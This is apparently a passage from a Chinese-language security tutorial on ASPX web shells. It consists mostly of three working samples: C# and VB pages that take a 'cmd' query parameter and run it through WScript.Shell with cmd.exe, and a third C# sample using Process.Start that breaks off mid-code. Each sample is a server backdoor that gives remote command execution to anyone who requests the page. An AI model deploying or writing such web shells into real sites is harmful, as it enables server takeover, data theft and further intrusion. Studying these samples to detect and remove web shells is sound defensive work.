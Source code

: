```
<%
string command = Request.QueryString["cmd"];
if (!string.IsNullOrEmpty(command))
{
    try
    {
        // 使用 GetTypeFromProgID 创建 WScript.Shell 对象
        Type shellType = Type.GetTypeFromProgID("WScript.Shell");
        dynamic shell = Activator.CreateInstance(shellType);
        dynamic exec = shell.Exec("cmd.exe /c " + command);
        dynamic stdout = exec.StdOut;
        string output = "";
        while (!stdout.AtEndOfStream)
        {
            output += stdout.ReadLine() + "\n";
        }
        
        Response.Write(output);
    }
    catch (Exception ex)
    {
        Response.Write($"Error: {Server.HtmlEncode(ex.Message)}");
    }
}
else
{
    Response.Write("No command");
}
%>
```
在`VB`中使用`CreateObject`来创建`WScript.Shell`对象
```
<%@ Page Language="VB" %>
<%
Dim command As String = Request.QueryString("cmd")
If Not String.IsNullOrEmpty(command) Then
    Try
        ' 使用CreateObject创建 WScript.Shell 对象
        Dim shell As Object = CreateObject("WScript.Shell")
        Dim exec As Object = shell.Exec("cmd.exe /c " & command)
        Dim stdout As Object = exec.StdOut
        Dim output As String = ""
        While Not stdout.AtEndOfStream
            output &= stdout.ReadLine() & vbCrLf
        End While
        Response.Write(output)
    Catch ex As Exception
        Response.Write("Error: " & ex.Message)
    End Try
Else
    Response.Write("No command")
End If
%>
```
我们再写出一个使用`System.Diagnostics.Process.Start`来执行命令的经典样本。
```
<%@ Page Language="c#"%>
<%
System.Diagnostics.ProcessStartInfo psi = new System.Diagnostics.ProcessStartInfo();
psi.FileName = "cmd.exe";
psi.Arguments = "/c " + Request.Params.Get("g");
psi.RedirectStandardOutput = true;
psi.UseShellExecute = false;
System.Diagnostics.Process p = System.Diagnostics.Process.Start(psi);
```